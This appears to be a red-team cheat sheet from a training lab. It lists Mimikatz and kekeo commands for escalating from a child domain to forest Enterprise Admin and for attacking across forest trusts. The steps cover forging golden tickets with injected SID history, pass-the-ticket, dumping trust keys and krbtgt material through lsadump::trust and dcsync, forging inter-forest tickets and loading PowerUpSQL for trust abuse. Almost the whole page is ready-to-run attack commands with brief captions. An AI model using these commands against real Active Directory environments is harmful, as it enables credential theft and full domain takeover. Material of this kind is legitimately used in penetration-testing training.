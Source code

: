 #### Create TGT
the mimikatz option /sids is forcefully setting the SID history for the Enterprise Admin group for dollarcorp.moneycorp.local that is the Forest Enterprise Admin Group
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<domain> /sid:<sid> /sids:<sids> /krbtgt:<hash> /ticket:<path to save ticket>"'
```

#### Inject the ticket
```
Invoke-Mimikatz -Command '"kerberos::ptt <path to ticket>"'
```

#### Get SID of enterprise admin
```
Get-NetGroup -Domain <domain> -GroupName "Enterprise Admins" -FullData | select samaccountname, objectsid
```

## Crossforest attacks
### Trust flow
#### Dump trust keys
Look for in trust key from child to parent (first command)
Look for NTLM hash (second command)
```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -Computername <computername>
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

#### Create a intern-forest TGT
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<domain> /sid:<domain sid> /rc4:<hash of trust> /service:krbtgt /target:<target> /ticket:<path to save ticket>"'
```

#### Create a TGS for a service (kekeo_old)
```
./asktgs.exe <kirbi file> CIFS/<crossforest dc name>
```

#### Use the TGT
```
./kirbikator.exe lsa <kirbi file>
```

#### Check access to server
```
ls \\<servername>\<share>\
```

### Trust abuse SQL
```
. .\PowerUpSQL.ps1
```

